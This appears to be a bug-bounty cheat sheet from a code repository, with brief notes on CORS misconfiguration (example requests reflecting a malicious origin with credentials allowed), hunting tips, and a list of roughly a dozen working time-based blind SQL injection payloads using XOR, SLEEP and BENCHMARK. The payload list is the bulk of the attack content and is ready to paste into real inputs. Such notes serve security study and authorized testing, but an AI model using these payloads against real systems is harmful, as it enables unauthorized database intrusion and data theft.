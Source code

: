 ## Tools: 
- XAMPP - run php code locally 
- NGROK - public ip 

# Cross origin resource sharing (CORS)

## Server-generated ACAO header from client-specified Origin header
ex: receives request
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```  
responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

Access-Control-Allow-Credentials: true  
- states that requests can include cookies

Access-Control-Allow-Origin  
- means any domain can access resources from the vulnerable domain

# keep in mind
- Devs make mistakes  
- Stick to what you know and don't get overwhelmed
- recon recon recon

# SQLI 
```0'XOR(if(now()=sysdate(),sleep(10),0))XOR'X

0"XOR(if(now()=sysdate(),sleep(10),0))XOR"Z

'XOR(if((select now()=sysdate()),sleep(10),0))XOR'Z

X'XOR(if(now()=sysdate(),//sleep(5)//,0))XOR'X

X'XOR(if(now()=sysdate(),(sleep((((5))))),0))XOR'X

X'XOR(if((select now()=sysdate()),BENCHMARK(1000000,md5('xyz')),0))XOR'X

'XOR(SELECT(0)FROM(SELECT(SLEEP(9)))a)XOR'Z

(SELECT(0)FROM(SELECT(SLEEP(6)))a)

'XOR(if(now()=sysdate(),sleep(5*5),0))OR'

'XOR(if(now()=sysdate(),sleep(5*5*0),0))OR'

(SELECT * FROM (SELECT(SLEEP(5)))a)

'%2b(select*from(select(sleep(5)))a)%2b'

CASE//WHEN(LENGTH(version())=10)THEN(SLEEP(6*1))END

```